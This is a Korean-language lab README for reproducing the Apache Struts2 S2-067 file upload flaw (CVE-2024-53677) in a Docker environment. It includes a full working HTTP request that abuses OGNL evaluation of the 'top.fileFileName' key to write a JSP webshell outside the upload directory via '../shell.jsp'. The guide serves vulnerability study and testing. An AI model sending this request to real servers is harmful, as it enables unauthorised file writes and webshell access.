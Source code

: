 # Struts2 파일 업로드 취약점 (CVE-2024-53677)

> 

[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/blob/master/struts2/s2-067/README.zh-cn.md)
[영어 버전(English version)](https://github.com/vulhub/vulhub/blob/master/struts2/s2-067/README.md)

Apache Struts2는 Java EE 웹 애플리케이션 개발을 위한 인기 있는 오픈 소스 웹 애플리케이션 프레임워크입니다. Java Servlet API를 기반으로 이를 확장하여, 개발자들이 모델–뷰–컨트롤러(MVC) 아키텍처를 손쉽게 적용할 수 있도록 도와줍니다. Struts2는 유지보수가 쉽고 확장 가능한 기업용(Enterprise) 웹 애플리케이션을 만들 수 있도록 다양한 태그와 유틸리티를 제공합니다.

S2-067은 불완전한 보완 조치로 인해 발생한 S2-066 취약점의 변종입니다. S2-066은 대소문자 구분 비교 문제로 인해 파일 이름 덮어쓰기와 디렉터리 탐색이 가능해던 반면, S2-067은 동일한 결과를 얻기 위해 다른 매커니즘을 악용합니다.

Struts2에서는 모든 파라미터 키가 전달 과정에서 OGNL 표현식으로 평가됩니다. 이 기능은 과거에도 OGNL 표현식 삽입을 통한 원격 코드 실행(RCE) 취약점으로 이어진 바 있습니다. Struts2는 이러한 RCE를 막기 위해 파라미터 키에 대한 엄격한 검증을 도입했지만, 여전히 표현식 평가 자체는 이루어지고 있습니다. S2-067은 이 표현식 평가 메커니즘을 다시 악용해 업로드 파일 이름을 덮어쓸 수 있게 만들고, 결국 디렉터리 탐색 문제로 이어지게 됩니다.

참고 문헌(References):

- <https://cwiki.apache.org/confluence/display/WW/s2-067>
- <https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/>

## 환경 설정(Environment Setup)

다음 명령을 실행하여 Struts2 2.5.33 버전으로 웹 서버를 시작합니다.

```
docker compose up -d
```

환경이 실행된 후 `http://your-ip:8080`에 접속해서 간단한 파일 업로드 페이지에 접근합니다.

## 취약점 재현

S2-067 취약점을 재현하기 전에, 먼저 [S2-066](https://github.com/vulhub/vulhub/blob/master/struts2/s2-066/README.md)을 읽고 해당 취약점의 원리를 이해해야 합니다.

이 서버에서 대소문자 구분 문제는 이미 해결되었기 때문에, S2-066에서 사용했던 동일한 페이로드는 사용할 수 없습니다.

![Failed Upload](1.png)

filename 파라미터 키에 OGNL 표현식인 `top.fileFileName`을 사용하면, 업로드된 파일이 다시 `upload/` 디렉터리 밖으로 저장됩니다.

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 335

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="top.fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

익스플로잇에서 주의해야 할 핵심 요소는 다음과 같습니다.

- S2-066처럼 대소문자 구분을 이용하는 대신, 파라미터 키에서 OGNL 표현식 평가를 사용합니다.
- `top.fileFileName`이라는 파라미터 키는 OGNL 표현식으로 평가됩니다.
- 이 평가 과정을 통해 `../shell.jsp`와 같은 경로 탐색 페이로드로 파일 이름을 덮어쓸 수 있습니다.

![Successful Upload](2.png)

이제 JSP 파일이 제한된 업로드 디렉터리 밖에 업로드되었고, 실행할 수 있게 되었습니다.

![Webshell Execution](3.png)

`http://your-ip:8080/shell.jsp` 주소로 접속하면 웹쉘에 접근할 수 있습니다.

## Github 주소
- [Github Repository 주소]()
- [Pull Request 주소]()

